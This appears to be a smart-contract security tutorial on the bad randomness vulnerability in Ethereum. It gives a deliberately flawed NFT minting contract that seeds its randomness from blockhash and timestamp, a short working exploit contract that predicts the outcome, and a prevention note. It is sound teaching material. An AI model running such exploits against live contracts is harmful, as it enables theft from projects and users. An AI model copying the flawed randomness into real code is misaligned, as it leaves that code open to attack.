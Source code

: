 ```yaml
---
title: Bad Randomness
displayed_sidebar: generalSidebar
---
```


# Bad Randomness

## Pseudo-Random Numbers

Many applications on Ethereum, such as NFT random tokenId draws, blind box openings, and GameFi combat outcomes, rely on random numbers. However, since all data on Ethereum is public and deterministic, traditional random generation methods like `random()` are not available.

Instead, projects often use pseudo-random number generators such as `blockhash()` and `keccak256()`. This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

This vulnerability is common in NFT and GameFi projects, including Meebits, Loots, and Wolf Game. It has led to significant financial losses, such as the SmartBillions Lottery exploit where attackers used predictable outcomes to win over 400 ETH. More information is available in the article, [The Blockchain Lottery SmartBillions Was Hacked for $120,000](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/).

## Example of a Bad Randomness Vulnerability

Let's explore a vulnerable NFT contract, `FlawedRandomizer.sol`.

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

The main function `mintIfLucky()` requires users to enter a number between `0-99`. If it matches the chain-generated pseudo-random number `pseudoRandomNumber`, they can mint a lucky NFT. The vulnerability lies in the ability of users to perfectly predict the generated random number and mint the NFT.

Let's write an attack contract `Exploit.sol`.

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

The function `executeMint()` takes a `FlawedRandomizer` contract address as a parameter. Here, we calculate the `predictedNumber` and then pass it to the `mintIfLucky()` function to execute the attack. Since both `executeMint()` and `mintIfLucky()` are called in the same block, the `blockhash` and `block.timestamp` are the same, making the generated random number predictable.

## Prevention Strategy

Use off-chain random numbers provided by oracle projects to prevent this type of vulnerability, such as Chainlink VRF. These random numbers are generated off-chain and uploaded to the blockchain, ensuring they are unpredictable.
